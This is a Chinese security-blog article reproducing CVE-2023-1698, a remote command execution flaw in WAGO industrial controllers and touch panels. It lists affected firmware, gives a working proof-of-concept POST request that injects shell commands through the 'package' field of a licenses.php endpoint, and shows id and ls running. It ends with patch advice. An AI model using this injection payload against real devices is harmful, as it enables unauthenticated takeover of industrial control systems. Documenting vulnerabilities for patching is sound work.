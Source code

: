#  【成功复现】WAGO系统远程代码执行漏洞(CVE-2023-1698)

原创 弥天安全实验室  [ 弥天安全实验室 ](javascript:void\(0\);)

**弥天安全实验室** ![]()

微信号 gh_41292c8e5379

功能介绍 学海浩茫，予以风动，必降弥天之润！

____

___发表于_

收录于合集

#CVE 65 个

#POC 64 个

#网络安全 93 个

#复现 76 个

#漏洞 104 个

  

  

网安引领时代，弥天点亮未来  

  
  

  

  



![]()  
 **0x00写在前面**  

 **      本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**

![]()  
 **0x01漏洞介绍**

  

WAGO是一家专业从事电气互连、自动化和接口电子技术的公司。

在 WAGO 的多个产品中，一个漏洞允许未经身份验证的远程攻击者创建新用户并更改设备配置，可能导致意远程RCE、拒绝服务等使整个系统受损。

  

![]()  
 **0x02影响版本**  

751-9301 Compact Controller CC100 FW20 <= FW22

751-9301 Compact Controller CC100 FW23

752-8303/8000-002 Edge Controller FW22

750-81xx/xxx-xxx PFC100 FW20 <= FW22

750-81xx/xxx-xxx PFC100 FW23

750-82xx/xxx-xxx PFC200 FW20 <= FW22

750-82xx/xxx-xxx PFC200 FW23

762-5xxx Touch Panel 600 Advanced Line FW22

762-6xxx Touch Panel 600 Marine Line FW22

762-4xxx Touch Panel 600 Standard Line FW22

![]()  
 **0x03漏洞复现**  
  

1.访问漏洞环境

![]()

2.对漏洞进行复现

  **POC  （POST）**

‍

漏洞复现

        POST请求，注入命令执行函数并进行base64编码

  *   *   *   *   *   *   *   *   * 

    
    
    POST /wbm/plugins/wbm-legal-information/platform/pfcXXX/licenses.php HTTP/1.1Host: 127.0.0.0User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36Connection: closeContent-Length: 19Content-Type: application/x-www-form-urlencodedAccept-Encoding: gzip, deflate  
    {"package":";id;#"}

       id命令执行成功

![]()

      ls命令执行成功

![]()

3.nuclei测试（漏洞存在）

![]()

  

![]()  
 **0x04修复建议**  
  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

1.使用一般安全最佳实践来保护系统免受本地和网络攻击。

2.不允许从不受信任的网络直接访问设备。

3.根据章节解决方案中的表格更新到最新固件。

4.工业控制系统 (ICS) 不应直接从 Internet 访问，而应通过始终如一地应用纵深防御策略加以保护。

  * 

    
    
    https://nvd.nist.gov/vuln/detail/CVE-2023-1698

  

  

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

![]()

  

知识分享完了

喜欢别忘了关注我们哦~

  

学海浩茫，予以风动，必降弥天之润！

  

   弥  天

安全实验室  

![]()

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


